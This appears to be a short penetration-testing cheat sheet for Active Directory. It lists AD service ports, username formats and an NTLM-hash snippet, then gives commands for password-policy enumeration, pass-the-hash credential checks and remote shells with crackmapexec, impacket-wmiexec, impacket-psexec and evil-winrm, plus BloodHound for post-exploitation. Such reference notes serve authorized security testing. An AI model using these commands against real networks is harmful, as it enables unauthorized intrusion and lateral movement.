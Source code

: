 # Info
## Common services used in AD
|Service|port|
|-|-|
|DNS|53|
|Kerberos|88|
|RPC|135| 
|NetBios|137-138-139|
|LDAP-tls|389-636|
|SMB|445|
|Global catalog LDAP-tls|3268-3269|

## Domain username convention
firstlast
flast
firlas
first.last
f.last
fir.las

## Calculate NTLM hash
```Python
import hashlib,binascii
hash = hashlib.new('md4', "password".encode('utf-16le')).digest()
print binascii.hexlify(hash)
```

## Password policy
`polenum '<USER>':'<PASS>' -d <IP/DOMAIN>`
`crackmapexec smb IP -u '<USER>' -p '<PASS>' --pass-pol`

## Expoitation
Check:
`crackmapexec SERVICE <IP> -u '<USER>' -p PASS` hash: -H

Shell:
`impacket-wmiexec -hashes '<HASH>' <USER>@<IP>`
`impacket-psexec -hashes '<HASH>' <USER>@<IP>`
`evil-winrm -i <IP> -u <USER> -p '<PASS>'` hash: -H
## Post-exploitation
`Bloodhound`
	`SharpHound` for local AD
	`AzureHound` for Azure AD